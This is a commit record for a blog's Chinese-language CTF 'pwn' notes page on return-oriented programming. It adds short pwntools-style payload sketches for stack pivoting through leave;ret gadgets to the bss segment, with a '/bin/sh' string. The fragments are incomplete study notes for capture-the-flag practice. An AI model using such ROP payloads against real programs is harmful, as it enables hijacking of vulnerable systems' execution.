

Before and after one commit to Windforce17/blog, an MkDocs documentation site: the page built from docs/ctf/pwn/ROP.md, in a window 1280 px wide and 1400 px high, scrolled down 672 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

Commit message:
update rop

````diff
--- a/docs/ctf/pwn/ROP.md
+++ b/docs/ctf/pwn/ROP.md
@@ -19,7 +19,35 @@
 将eax赋值为3
 ### 栈转移
 寻找 leave;ret;指令，然后更改ebp的值即可
-leave= mov esp,ebp,pop ebp;
+```py
+payload += p32(base_stage)
+payload += p32(leave_ret)
+#leave= mov esp,ebp,pop ebp
+```
+例子：将esp设置到bss段上
+```py
+payload = flat(
+  [
+  'A' * offset, # 覆盖到ret
+  read_plt, # 读100个字节到base_stage
+  ppp_ret, # pop esi ; pop edi ; pop ebp ; ret 清空参数
+  0,
+  base_stage,
+  100,
+  pop_ebp_ret, # 把base_stage pop到ebp中
+  base_stage,
+  leave_ret  #mov esp,ebp;pop ebp
+  ]
+)
+cmd = "/bin/sh"
+payload1= flat(
+  [
+    'A' *4 # 接payload1，ebp='AAAA'
+    write_plt
+    #...
+  ]
+)
+```
 
 ## 通用技术
 常用的栈布局如下
````
